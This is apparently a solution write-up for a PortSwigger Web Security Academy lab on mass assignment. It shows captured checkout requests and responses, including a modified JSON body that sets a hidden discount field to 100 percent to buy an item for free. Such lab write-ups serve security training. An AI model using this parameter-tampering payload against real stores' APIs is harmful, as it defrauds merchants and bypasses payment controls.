


# Exploiting a mass assignment vulnerability

```
❓

To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.
```

```
⚠️

**Required Knowledge**

To solve this lab, you'll need to know:

- What mass assignment is.
- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.

These points are covered in our [API Testing](https://portswigger.net/web-security/api-testing) Academy topic.
```





When trying to check out we can see a POST to the endpoint `/api/checkout` being made containing JSON data of the item id and quantity.

```javascript
POST /api/checkout HTTP/2
Host: 0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net
Cookie: session=tvXPVLWgFvLE5XsGydFW7IUIFHjsKgTo
Content-Length: 53
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"chosen_products":[{"product_id":"1","quantity":2}]}
```

In the following response to this request we can see more information on the item we are trying to check out with such as whether or not a discount percentage is applied, the item name, and the item price. We can actually take this JSON data and append it to out original checkout request and alter the discount percentage.

```javascript
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":2,"item_price":133700}]}
```

Changing the discount percentage will complete the lab.

```javascript
POST /api/checkout HTTP/2
Host: 0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net
Cookie: session=tvXPVLWgFvLE5XsGydFW7IUIFHjsKgTo
Content-Length: 53
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3c0089038a86f0873cf1ce00fe008f.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":2,"item_price":133700}]}
```
